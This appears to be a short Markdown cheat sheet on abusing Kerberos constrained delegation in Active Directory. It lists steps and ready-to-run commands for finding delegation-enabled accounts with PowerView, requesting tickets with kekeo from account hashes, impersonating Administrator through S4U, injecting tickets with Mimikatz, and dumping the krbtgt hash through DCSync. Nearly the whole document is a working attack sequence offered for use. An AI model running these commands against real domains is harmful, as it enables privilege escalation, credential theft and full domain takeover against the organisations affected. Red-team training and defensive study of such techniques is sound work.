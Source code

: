 # Constrained Delegation

## Methodology/Steps
> 1. List all the users having Constrained Delegation
> 2. Keep a note of the **msDS-AllowedToDelegateTo** value
> 3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
> 4. Keep a note of the TGT return ticket
> 5. Now request a TGS with the 2nd step and 4th step values as parameters in */service* and */tgt*
> 6. Keep a note of the TGS return Ticket
> 7. Now we can inject the TGS return Ticket with **Inkove-Mimikatz**
> 8. We can now list the file systems of that account. Example : **`ls \\dc-mysql\C$`** but *can not* use any **WMI-Commands**
> 9. But if the user DC we can do the same process and then do a **DCSync** attack

## Enumerate users and computers with CD enabled
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth
Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
```

## Requesting a TGT
```shell
tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

## Request a TGS
```shell
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
```

## Inject the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

## Execute DCSync 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
